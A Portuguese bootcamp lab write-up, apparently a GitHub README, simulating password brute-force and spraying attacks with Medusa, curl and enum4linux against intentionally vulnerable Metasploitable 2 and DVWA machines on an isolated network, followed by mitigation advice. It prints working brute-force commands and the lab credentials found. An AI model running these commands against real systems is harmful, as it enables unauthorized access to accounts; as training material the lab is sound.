






# 🔐 Simulando um Ataque de Brute Force de Senhas com Medusa e Kali Linux

> Projeto prático do Bootcamp **Santander – Cibersegurança do Zero à Prática** (DIO).
> Simulação de ataques de força bruta em ambiente **controlado, isolado e autorizado**, com foco em entender as técnicas ofensivas para então propor **medidas de defesa**.


---

## ⚠️ Aviso Legal e Ético

Todo o conteúdo deste repositório foi produzido **exclusivamente para fins educacionais**, dentro de um **laboratório isolado** composto por máquinas virtuais em **rede interna (host-only)**, sem qualquer acesso à internet ou a sistemas de terceiros.

As máquinas-alvo (**Metasploitable 2** e **DVWA**) são sistemas **propositalmente vulneráveis**, criados pela própria comunidade de segurança para fins de estudo.

> **Ataques de força bruta contra sistemas que você não possui ou não tem autorização expressa por escrito para testar são crime** (no Brasil, enquadrados na Lei nº 12.737/2012 – "Lei Carolina Dieckmann" – e correlatas). Nunca aplique estas técnicas fora de um ambiente autorizado.

---

## 📑 Índice

1. [Objetivo do Projeto](#-objetivo-do-projeto)
2. [Conceitos Fundamentais](#-conceitos-fundamentais)
3. [Ambiente do Laboratório](#-ambiente-do-laboratório)
4. [Ferramentas Utilizadas](#-ferramentas-utilizadas)
5. [Criação das Wordlists](#-criação-das-wordlists)
6. [Cenário 1 – Força Bruta em FTP](#-cenário-1--força-bruta-em-ftp-metasploitable-2)
7. [Cenário 2 – Força Bruta em Formulário Web (DVWA)](#-cenário-2--força-bruta-em-formulário-web-dvwa)
8. [Cenário 3 – Password Spraying em SMB](#-cenário-3--password-spraying-em-smb)
9. [Medidas de Mitigação](#-medidas-de-mitigação)
10. [Dificuldades e Aprendizados](#-dificuldades-e-aprendizados)
11. [Conclusão](#-conclusão)
12. [Referências](#-referências)

---

## 🎯 Objetivo do Projeto

Implementar, documentar e compartilhar um projeto prático utilizando **Kali Linux** e a ferramenta **Medusa**, em conjunto com ambientes vulneráveis, para:

- Simular cenários de **ataque de força bruta** em diferentes serviços (FTP, Web e SMB);
- Exercitar a **enumeração de usuários** e o **password spraying**;
- Compreender, na prática, por que senhas fracas e serviços mal configurados são um risco crítico;
- Propor **medidas de prevenção e mitigação** para cada vetor.

---

## 📚 Conceitos Fundamentais

### O que é um ataque de força bruta?
É a tentativa sistemática de adivinhar credenciais testando **múltiplas combinações** de usuário/senha até encontrar uma válida. Variações:

| Técnica | Descrição |
|---|---|
| **Brute force puro** | Testa todas as combinações possíveis de caracteres. Lento, mas exaustivo. |
| **Ataque de dicionário** | Testa senhas de uma lista pré-definida (*wordlist*). Muito mais eficiente. |
| **Credential stuffing** | Reutiliza pares usuário/senha vazados em outros serviços. |
| **Password spraying** | Testa **poucas senhas comuns** contra **muitos usuários**, evitando o bloqueio por tentativas. |

### Principais ferramentas no Kali Linux

| Ferramenta | Foco principal |
|---|---|
| **Medusa** | Brute force paralelo e modular em serviços de rede (foco deste projeto) |
| **Hydra** | Similar ao Medusa, altamente versátil |
| **Ncrack** | Otimizada para auditoria de autenticação em rede |
| **John the Ripper** | Quebra de *hashes* de senha offline |
| **enum4linux / smbclient** | Enumeração e interação com serviços SMB |

---

## 🧪 Ambiente do Laboratório

### Topologia

```
┌────────────────────────┐        Rede Interna          ┌────────────────────────────┐
│      KALI LINUX         │       (host-only)            │      METASPLOITABLE 2       │
│      (Atacante)         │◄────────────────────────────►│      / DVWA (Alvo)          │
│   IP: 192.168.56.102    │     192.168.56.0/24          │   IP: 192.168.56.101        │
└────────────────────────┘                              └────────────────────────────┘
```

| VM | Função | Rede |
|---|---|---|
| Kali Linux | Máquina atacante | Host-only (`192.168.56.102`) |
| Metasploitable 2 | Alvo vulnerável | Host-only (`192.168.56.101`) |

> A rede **host-only** garante que o tráfego de ataque **nunca saia da máquina física**. Esse isolamento é o que torna o exercício ético e seguro.

### Reconhecimento inicial (Nmap)

```bash
nmap -sV 192.168.56.101
```

O scan revelou diversos serviços vulneráveis expostos (FTP, SMB, MySQL, PostgreSQL, VNC, entre outros):



---

## 🛠 Ferramentas Utilizadas

- **VirtualBox** (virtualização) · **Kali Linux** (atacante) · **Metasploitable 2** (alvo)
- **Medusa**, **Nmap**, **enum4linux**, **smbclient**, **curl**
- **DVWA** (Damn Vulnerable Web Application)

---

## 📝 Criação das Wordlists

Listas simples de usuários e senhas comuns, criadas direto no terminal:

```bash
printf 'msfadmin\nadmin\nroot\nuser\n' > usuarios.txt
printf 'msfadmin\nadmin\n123456\npassword\nroot\ntoor\n' > senhas.txt
```

> Em auditorias reais usam-se listas robustas como a `rockyou.txt` (`/usr/share/wordlists/rockyou.txt.gz` no Kali) ou wordlists personalizadas geradas com **Crunch** / **Cewl**.

---

## 🎯 Cenário 1 – Força Bruta em FTP (Metasploitable 2)

Ataque ao serviço FTP com o Medusa:

```bash
medusa -h 192.168.56.101 -U usuarios.txt -P senhas.txt -M ftp -t 4 -f -v 4
```

**Resultado — credencial descoberta:**
```
ACCOUNT FOUND: [ftp] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]
```



---

## 🌐 Cenário 2 – Força Bruta em Formulário Web (DVWA)

Alvo: formulário de login do DVWA (nível de segurança **Low**), que exige um cookie de sessão válido (`PHPSESSID`).



Para automatizar as tentativas, foi usado um **laço em `curl`**, enviando cada combinação com o cookie da sessão e detectando o sucesso pela mensagem de boas-vindas do DVWA:

```bash
COOKIE="PHPSESSID=<sua_sessao>; security=low"
for p in msfadmin admin 123456 password root toor senha123; do
  echo -n "Testando admin:$p -> "
  curl -s -b "$COOKIE" "http://192.168.56.101/dvwa/vulnerabilities/brute/?username=admin&password=$p&Login=Login" \
  | grep -q "Welcome to the password protected area" && echo ">>> SENHA CORRETA! <<<" || echo "falhou"
done
```

**Resultado — senha do `admin` encontrada:**
```
Testando admin:password -> >>> SENHA CORRETA! <<<
```



> **Nota técnica:** a abordagem inicial foi com o **Hydra** (`http-get-form`), mas a versão testada apresentou um conflito de parsing ao escapar os dois-pontos (`:`) do cabeçalho `Cookie`. A solução com `curl` se mostrou mais transparente e confiável, deixando explícito o mecanismo HTTP por trás do ataque.

---

## 🏢 Cenário 3 – Password Spraying em SMB

### Passo 1 – Enumeração de usuários e compartilhamentos
```bash
enum4linux -a 192.168.56.101
```
A enumeração revelou o servidor **Samba 3.0.20-Debian**, o workgroup, usuários e os compartilhamentos disponíveis:



### Passo 2 – Força bruta no SMB + validação do acesso
```bash
medusa -h 192.168.56.101 -U usuarios.txt -P senhas.txt -M smbnt -t 2 -v 4
smbclient -L //192.168.56.101 -U msfadmin
```

**Resultado:**
```
ACCOUNT FOUND: [smbnt] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]
```
O `smbclient` confirmou o acesso real, listando os compartilhamentos (`tmp`, `opt`, `IPC$`, `ADMIN$`, home do usuário):



---

## 🛡 Medidas de Mitigação

A parte mais importante de uma auditoria: **como se defender**.

| Vetor | Mitigação recomendada |
|---|---|
| **Senhas fracas** | Política de senhas fortes (tamanho mínimo, complexidade, proibir senhas vazadas). |
| **Tentativas ilimitadas** | **Account lockout** após N tentativas e **rate limiting** por IP. |
| **Ausência de MFA** | Implementar **autenticação multifator**. |
| **Serviços expostos** | Desabilitar serviços desnecessários; firewall e segmentação de rede. |
| **FTP/SMB legados** | Substituir protocolos em texto claro por versões seguras (SFTP, SMBv3 com assinatura). |
| **Falta de monitoramento** | **Fail2ban**, SIEM e alertas de múltiplas falhas de login. |
| **Enumeração de usuários** | Mensagens de erro genéricas; restringir *null sessions* no SMB. |

Exemplo — protegendo o SSH com **Fail2ban**:
```bash
sudo apt install fail2ban
# Em /etc/fail2ban/jail.local: maxretry = 3, bantime = 1h
```

---

## 🧗 Dificuldades e Aprendizados

Registro honesto da minha jornada montando este laboratório:

- **Montar a rede host-only** foi onde entendi, na prática, o conceito de isolamento: as duas VMs só se enxergam entre si, e é isso que torna o teste seguro. Ver o primeiro `ping` entre Kali e Metasploitable respondendo foi o "clique" de que o ambiente estava de pé.
- **O ataque ao DVWA me deu trabalho:** o Hydra travava no parsing do cookie de sessão. Em vez de insistir na ferramenta, resolvi com um laço em `curl` — e, no fim, aprendi mais, porque passei a enxergar exatamente a requisição HTTP que está por trás do ataque.
- **Tirar os prints de dentro da VM** virou um aprendizado à parte: acabei configurando uma **pasta compartilhada** do VirtualBox para levar as evidências do Kali até o host.
- A lição que fica: **a defesa é mais importante que o ataque**. Todos os acessos só foram possíveis por causa de senhas fracas e serviços mal configurados — exatamente o que as mitigações acima corrigem.

> *(Seção pessoal — fique à vontade para reescrever com as suas próprias palavras.)*

---

## 🎓 Conclusão

Este laboratório demonstrou, na prática, como **senhas fracas e serviços mal configurados** transformam um ambiente em alvo fácil, em três vetores diferentes (FTP, Web e SMB). Mais do que "invadir", o objetivo foi **entender o risco para então eliminá-lo** — que é o papel real de um profissional de segurança.

---

## 📂 Estrutura do Repositório

```
.
├── README.md
├── usuarios.txt
├── senhas.txt
└── images/
    ├── nmap-scan.png
    ├── ftp-medusa.png
    ├── dvwa-pagina.png
    ├── dvwa-bruteforce.png
    ├── smb-enum.png
    └── smb-ataque.png
```

---

## 🔗 Referências

- [Kali Linux – Site Oficial](https://www.kali.org/)
- [Medusa – Documentação](http://www.foofus.net/jmk/medusa/medusa.html)
- [DVWA – Damn Vulnerable Web Application](http://www.dvwa.co.uk/)
- [Nmap – Manual Oficial](https://nmap.org/book/)
- [Metasploitable 2 – Documentação (Rapid7)](https://docs.rapid7.com/metasploit/metasploitable-2/)

---

<p align="center">
  Projeto desenvolvido no Bootcamp <strong>Santander – Cibersegurança do Zero à Prática</strong> 🚀<br>
  <em>Digital Innovation One (DIO)</em>
</p>
